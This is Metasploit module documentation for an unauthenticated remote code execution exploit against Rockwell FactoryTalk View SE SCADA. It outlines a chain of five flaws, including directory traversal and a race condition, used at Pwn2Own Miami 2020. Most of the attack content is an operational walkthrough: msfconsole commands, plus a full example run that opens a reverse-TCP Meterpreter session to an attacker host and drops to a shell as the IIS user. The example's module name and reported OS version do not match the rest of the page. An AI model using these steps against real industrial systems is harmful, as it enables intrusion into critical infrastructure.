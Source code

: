 ## Vulnerable Application
This exploit requires Rockwell FactoryTalk View SE SCADA, which is only accessible to Rockwell customers.
The module exploits a series of vulnerabilities to achieve unauthenticated remote code execution on the product.
The default configuration is exploitable by an unauthenticated attacker, and successful exploitation results in RCE as the IIS user on the Windows server.
The attack relies on the chaining of five separate vulnerabilities. The first vulnerability is an unauthenticated project copy request, the second is a directory traversal, and the third is a race condition. In order to achieve full remote code execution on all targets, two information leak vulnerabilities are also abused.
This exploit was used by the Flashback team (Pedro Ribeiro + Radek Domanski) in Pwn2Own Miami 2020 to win the EWS category.
          
## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/scada/rockwell_factorytalk_rce`
3. Do: `set rhosts [RHOST]`
4. Do: `set lhost [LHOST]`
5. Do: `set srvhost [LHOST]`
6. Do: `run`
7. You should get a shell as the IIS user.

### Scenarios

This exploit was only tested on version 11.00.00.230. According to a Google search, it should work for all versions going back as far as 2008.

### Example run (Rockwell FactoryTalk View SE SCADA version 11.00.00.230 on Windows Server 2012 R2 x64)

```
msf6 > use exploit/windows/scada/rockwell
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/scada/rockwell) > set rhost 192.168.70.128
rhost => 192.168.70.128
msf6 exploit(windows/scada/rockwell) > set lhost 192.168.70.1
lhost => 192.168.70.1
msf6 exploit(windows/scada/rockwell) > set srvhost 192.168.70.1
srvhost => 192.168.70.1
msf6 exploit(windows/scada/rockwell) > check

[*] 192.168.70.128:80 - Detected version 11.00.00.230
[*] 192.168.70.128:80 - The target appears to be vulnerable.
msf6 exploit(windows/scada/rockwell) > run

[*] Started reverse TCP handler on 192.168.70.1:4444
[*] 192.168.70.128:80 - Listing projects on the server
[*] 192.168.70.128:80 - Received list of projects from the server
[*] 192.168.70.128:80 - Found project path: C:\Users\Public\Documents\RSView Enterprise\SE\HMI Projects\FTViewDemo_HMI
[+] 192.168.70.128:80 - Got a path to drop our shell: C:\Users\Public\Documents\RSView Enterprise\SE\HMI Projects\
[*] 192.168.70.128:80 - Starting up our web service on http://192.168.70.1:8080 ...
[*] Using URL: http://192.168.70.1:8080/RSViewSE/
[*] 192.168.70.128:80 - Starting racer thread, let's win this race condition!
[*] 192.168.70.128:80 - Initiating project copy request...
[+] 192.168.70.128:80 - Target connected, sending file path with dir traversal
[+] 192.168.70.128:80 - Target connected, sending payload
[+] 192.168.70.128:80 - We've won the race condition, shell incoming!
[*] Sending stage (175174 bytes) to 192.168.70.128
[*] Meterpreter session 1 opened (192.168.70.1:4444 -> 192.168.70.128:49894) at 2020-10-12 14:27:48 +0700
[*] Server stopped.

meterpreter > shell
Process 12008 created.
Channel 1 created.
Microsoft Windows [Version 10.0.18362.449]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\SysWOW64\inetsrv>whoami
whoami
iis apppool\defaultapppool

C:\WINDOWS\SysWOW64\inetsrv>
```
